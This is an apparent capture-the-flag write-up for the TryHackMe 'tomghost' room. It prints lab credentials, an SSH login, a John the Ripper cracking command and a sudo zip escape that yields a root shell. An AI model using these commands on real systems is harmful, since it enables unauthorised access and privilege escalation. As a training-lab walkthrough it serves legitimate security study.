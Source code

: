 ```
tomghost

Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.
https://tryhackme.com/room/tomghost

```

First we start off with the classic, nmap + Gobuster scan.


We see that tomcat is full default settings, maybe we can find online if there are some overly exposed config files present in this tomcat version.
`skyfuck:8730281lkjlkjdqlksalks`

You can use these credentials to SSH To the machine successfully (for some reason)
password: 8730281lkjlkjdqlksalks

ssh skyfuck@10.10.40.61

Run John to decypher the passphrase to unlock the credentials.gpg

I made a webserver on the remote host to extract the files.
  ``python3 -m "http.server"``  
After downloading both files i used john to try and decode the .pgp encoded file.

``john --wordlist=/usr/share/wordlists/rockyou.txt john_hash``

This produces our password; this in turn lets us decrypt the credentials.gpg

``merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j``

After we switch to the "merlin" user using that password, we'll re-iterate with linpeas.sh see if we can escalate privilegdes.

We check the first thing `sudo -l` to see if anything exploitable can be run as root, and we see we are allowed to run zip, we check GTFOBins and see that zip can be easily escaped using this code:

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

This gives us a interactive # shell, and we can cat /root/root.txt for the final flag.
